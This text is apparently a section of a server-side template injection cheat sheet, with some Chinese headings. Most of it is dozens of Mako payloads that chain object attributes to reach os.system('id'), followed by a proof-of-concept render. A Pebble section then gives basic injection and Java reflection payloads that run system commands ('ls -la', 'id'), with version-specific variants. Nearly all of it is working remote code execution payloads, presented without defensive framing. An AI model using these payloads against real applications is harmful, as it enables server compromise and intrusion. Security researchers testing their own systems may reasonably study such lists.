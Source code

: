 	${self.module.cache.compat.inspect.linecache.os.system("id")}
	${self.template._mmarker.module.runtime.util.os.system("id")}
	${self.attr._NSAttr__parent.module.cache.util.os.system("id")}
	${self.template.module.filters.compat.inspect.os.system("id")}
	${self.template.module.runtime.compat.inspect.os.system("id")}
	${self.module.filters.compat.inspect.linecache.os.system("id")}
	${self.module.runtime.compat.inspect.linecache.os.system("id")}
	${self.template.module.runtime.exceptions.util.os.system("id")}
	${self.attr._NSAttr__parent.module.runtime.util.os.system("id")}
	${self.context._with_template.module.cache.util.os.system("id")}
	${self.module.runtime.exceptions.compat.inspect.os.system("id")}
	${self.template.module.cache.util.compat.inspect.os.system("id")}
	${self.context._with_template.module.runtime.util.os.system("id")}
	${self.module.cache.util.compat.inspect.linecache.os.system("id")}
	${self.template.module.runtime.util.compat.inspect.os.system("id")}
	${self.module.runtime.util.compat.inspect.linecache.os.system("id")}
	${self.module.runtime.exceptions.traceback.linecache.os.system("id")}
	${self.module.runtime.exceptions.util.compat.inspect.os.system("id")}
	${self.template._mmarker.module.cache.compat.inspect.os.system("id")}
	${self.template.module.cache.compat.inspect.linecache.os.system("id")}
	${self.attr._NSAttr__parent.template.module.cache.util.os.system("id")}
	${self.template._mmarker.module.filters.compat.inspect.os.system("id")}
	${self.template._mmarker.module.runtime.compat.inspect.os.system("id")}
	${self.attr._NSAttr__parent.module.cache.compat.inspect.os.system("id")}
	${self.template._mmarker.module.runtime.exceptions.util.os.system("id")}
	${self.template.module.filters.compat.inspect.linecache.os.system("id")}
	${self.template.module.runtime.compat.inspect.linecache.os.system("id")}
	${self.attr._NSAttr__parent.template.module.runtime.util.os.system("id")}
	${self.context._with_template._mmarker.module.cache.util.os.system("id")}
	${self.template.module.runtime.exceptions.compat.inspect.os.system("id")}
	${self.attr._NSAttr__parent.module.filters.compat.inspect.os.system("id")}
	${self.attr._NSAttr__parent.module.runtime.compat.inspect.os.system("id")}
	${self.context._with_template.module.cache.compat.inspect.os.system("id")}
	${self.module.runtime.exceptions.compat.inspect.linecache.os.system("id")}
	${self.attr._NSAttr__parent.module.runtime.exceptions.util.os.system("id")}
	${self.context._with_template._mmarker.module.runtime.util.os.system("id")}
	${self.context._with_template.module.filters.compat.inspect.os.system("id")}
	${self.context._with_template.module.runtime.compat.inspect.os.system("id")}
	${self.context._with_template.module.runtime.exceptions.util.os.system("id")}
	${self.template.module.runtime.exceptions.traceback.linecache.os.system("id")}

	POC
	>>> print(Template("${self.module.cache.util.os}").render())
	<module 'os' from '/usr/local/lib/python3.10/os.py'>
  #### Pebble
  	基本注入
	{{ someString.toUPPERCASE() }}
	代码执行
	旧版本< 版本 3.0.9
	{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}
	新版本
	{% set cmd = 'id' %}
	{% set bytes = (1).TYPE
	     .forName('java.lang.Runtime')
	     .methods[6]
	     .invoke(null,null)
	     .exec(cmd)
	     .inputStream
	     .readAllBytes() %}
	{{ (1).TYPE
	     .forName('java.lang.String')
	     .constructors[0]
	     .newInstance(([bytes]).toArray()) }}